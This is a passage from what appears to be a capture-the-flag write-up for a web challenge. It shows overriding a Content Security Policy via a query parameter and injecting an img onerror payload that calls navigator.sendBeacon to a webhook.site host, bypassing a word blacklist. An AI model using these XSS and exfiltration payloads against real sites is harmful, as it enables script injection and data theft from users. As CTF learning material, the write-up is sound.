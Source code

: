 
```
img-src 'self' https://webhook.site/xxxxxxx;
```

- Sending the request

```
http://xssl.web.jctf.pro/?text=a&unmodifiable[CSP]=img-src%20%27self%27%20https://webhook.site/xxxxxxx;
```

- The new CSP Value has been assigned indeed

![image](/assets/images/CTFs/extra-safe-security-layers/20230604230001.png)

- now we can think of allowing external scripts loading from our webhook but this will make us use ``<script src=`` at the text parameter which will not b executing due to the xss sanitizer.

#### Bypassing XSS Sanitizer 

From the ``index.ejs`` we can see this snippet , it takes the value from the ``unmodifiable.background`` and assign it to the background with img tag.

```js
main.innerHTML += ` <img class='background' src='<%- unmodifiable?.background %>'>`;
```

- what if add the value ``x' onerror=alert(1)`` will it be executed ? , well no but because of the blacklisted words and not because of the xss sanitizer 

![image](/assets/images/CTFs/extra-safe-security-layers/20230604230540.png)

- we can trigger an xss but let's try to find a payload without the blacklisted words , how can we send request without the ``XmlHttpRequest`` ,``fetch`` . searching [here](https://developer.mozilla.org/en-US/docs/Web/API) will find the Beacon API which we can try 

```
http://xssl.web.jctf.pro/?text=a&unmodifiable[CSP]=img-src 'self' https://webhook.site/xxxxx&unmodifiable[background]=unmodifiable[background]=x' onerror="navigator.sendBeacon('https://webhook.site/xxxxxx/');"
```
